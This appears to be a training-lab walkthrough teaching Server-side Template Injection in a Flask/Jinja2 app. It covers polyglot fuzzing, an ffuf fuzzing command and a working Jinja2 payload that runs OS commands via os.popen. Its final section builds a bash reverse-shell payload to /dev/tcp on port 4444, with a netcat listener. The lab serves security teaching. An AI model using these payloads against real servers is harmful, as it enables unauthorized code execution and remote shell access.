 ﻿# SSTI Audition Lab

## Welcome!

In this lab we will be taking a look at Server-side Template Injection; a web vulnerability that is common among many web frameworks that use templates. Please feel free to step outside of the instructions and play around with the injection and various features you can abuse with it. 

Template engines are designed to help frameworks generate web pages by combining fixed templates with input data. Server-side template injection occurs when a template renders in a web application without any filtering, allowing us, the attacker, to execute arbitrary code on the server. In this lab, we will be taking a look at the Jinja2 framework in python and how to abuse SSTI to gain a reverse shell against the web server.

## Discovery

Heading over to Tech Guru's website we can find an a field requesting for our name for personalized insights. Because this field is a prime canidate for server side template injection. Let's go ahead and try to fuzz for it. The simplest approach would be to first use a polyglot to see how the application interacts with our request.

```python
${{<%[%'"}}%\
```

![img.png](img.png)

Polyglots are great because it tests all characters that could potentially make an application vulnerable. What we are looking for here is to trigger an error or a behavior that is unexpected.

After clicking "Get Insights", we will execute the polyglot and recieve a flask error. Excellent! Now we know exactly what template the application is using.

![img1.png](img1.png)

In this case, we now know that the application we are interacting with is written in Python. Additionally, we know that the template it is using is Jinja2, as annotated by the `jinja2.exceptions.TemplateSyntaxError`.

In other applications outside of this lab, if the above did not result in an error or some other indicator that the application behaved unexpectedly. We may use the `ffuf` tool to fuzz instead. After we have opened burpsuite (You may type burpsuite in console), we may run the following:

```bash
#The wget command is just to grab the fuzzing file we will be using, it contains code for all templates.
wget https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Template%20Injection/Intruder/ssti.fuzz
ffuf -u www.victim-website.com/ -x FUZZ -w ssti.fuzz -replay-proxy http://127.0.0.1:8080/
```
You may manually analyze the responses to see what returns "49" (As indicated by 7*7) or the id of the user.

2 great resources for figuring out which template injection it is are the following:

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

Since we do not need to use ffuf as we already know the template that is in use. We can look into specifics on how the Jinja2 template works.

## Understanding the Jinja2 Template
https://jinja.palletsprojects.com/en/3.1.x/
"Jinja is a fast, expressive, extensible templating engine. Special placeholders in the template allow writing code similar to Python syntax. Then the template is passed data to render the final document."

Jinja2 is typically used in the django and flask frameworks. 

If the app blindly takes user input and renders it in the application, it may be vulnerable to arbitrary code injection. Let's take a look at what this looks like in Python.

```python
greeting = render_template_string(f"Hello, {name}!")
```

The `render_template_string` function is rendering the template "{name}" without any filtering. Because of this, we can make the application evaluate any code that we provide it.

## Discovery of Python Methods with SSTI (Flask / Jinja2)

Some template frameworks allow you to freely execute arbitrary code, Jinja2 however, does not. We must first figure out what methods we can access.

Firstly, we will attempt to access a simple built-in method such as `upper()`

`{{"test".upper()}}`

![img2.PNG](img2.png)

We can see that "test" is in all-caps. Knowing that we can now access built-in methods, we can leverage this to execute any code from any module that is built into python.

the `os` module in python allows python to interface with the operating system. This is a prime target for us as it allows us to execute code directly on the target host.

There are several ways to access a built-in method, however, we will use something simple and obtain remote code execution that way. You will always want to start simple and make sure you can get a working proof of concept exploit before expanding on it into something more complicated like a reverse shell. For now, we will just obtain the id of the user the flask application is running as.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![img3.png](img3.png)

Great! As you can see, we can successfully execute linux commands. Now let's get a reverse shell!

We will configure our command first to copy over into our SSTI Injection.

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/4444 0>&1"
```

You will want to change the IP address `x.x.x.x`. You may get your IP address by typing `ip addr`.

After you have configured your SSTI Injection, we will want create the full PoC (Proof of Concept) in a note to copy paste.

```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.1.112/4444 0>&1"').read() }}```
```

Now that we have our payload built, we may start up a listener on our attack machine.

```bash
nc -nvlp 4444
```

![img6.png](img6.png)

After you execute the payload on the website, you should obtain a shell from the web server.

![img5.png](img5.png)

![img7.png](img7.png)

Excellent, we now have a reverse shell on the web server!
